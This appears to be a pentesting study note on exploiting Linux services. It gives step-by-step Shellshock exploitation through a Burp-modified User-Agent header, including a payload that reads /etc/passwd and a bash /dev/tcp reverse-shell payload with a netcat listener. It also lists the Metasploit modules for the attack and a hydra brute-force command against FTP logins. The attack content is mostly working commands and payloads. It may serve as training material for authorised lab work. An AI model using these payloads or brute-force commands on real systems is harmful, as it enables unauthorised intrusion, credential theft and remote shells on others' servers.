     - **Exploiting Linux Vulnerabilities**
    
      
    

- ==_Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)_==

- ==_Exploit ShellShock_==
    
    1. first we need a nmap scan to obtain what the services running on the ip ⇒ `nmap -sV <ip >`
    
    > now we are locking for a apache web server , once we found it , now if we open it in new browser , we will see that the website display the current time based on your time , so this is a dinamical thing and it’s relly look like it a server side , so this can be happen througe CGI Script , that what we want
    
    1. `namp -sV <target ip> - - script=http-shellshock - -script-args “http-shellshock.uri=/<Cgi script dir or path>”` ⇒ to scan if target is vuln to shellshock or not
    
    > when we see it’s vuln now we want to inject a spical char in user agent , then the command we want to execute
    
    1. ==_now open burp and intrcept the cgi script request , send it to repeter_==
    2. now modify the user agent to ⇒ `() { :; }; echo; echo; /bin/bash -c '< command>'`
    3. as a example we will run the etc/passwd ⇒ ==_() { :; }; echo; echo; /bin/bash -c ‘cat /etc/passwd’_==
    4. now let’s make a revers shell ⇒ `nc -nvlp 1234`
    5. now in burp modify the user agent to ⇒ `_() { :; }; echo; echo; /bin/bash -c ‘bash -i>&/dev/tcp/<ip:1234> 0>&1’_`
    
    - now authomatic using msfconsole
    
    1. `msfconsole` && `search shellshock`
    2. `use auxilaiary/scanner/http/apache_mod_cgi_bash_env` ⇒ to scan if the target system vuln or not
    3. `use exploit/multi/http/apache_mod_cgi_bash_env_exec` && `set rhosts <target ip>` && `set targeturi <cgi script path>` && `run`
    

  

  

- ==_**Exploiting FTP**_==

> Ftp stand for a file transfer protocol on 21 by default is used to facilitate file sharing between a server and clinet/clients . && it is used to transfer file to and from the dirctory of a web server

> in some case the FTP server may be configured to allow anonymous access which allow user to access it without credentials.

  

- ==**Exploit FTP using brute-force attack**==
    
    1. `nmap -sV <target ip>`
    2. `ls -al /usr/share/nmap/scripts/ | grep <what u want>*` ⇒ to see what the script u have on nmap u can use
    3. `hydra -L /usr/share/metasploit-freamwork/data/wordlist/common_users.txt -P /usr/share/metasploit-freamwork/data/wordlist/unix_password.txt < target ip> -t 4 ftp` ⇒ to brute-force the ftp login
    
      
    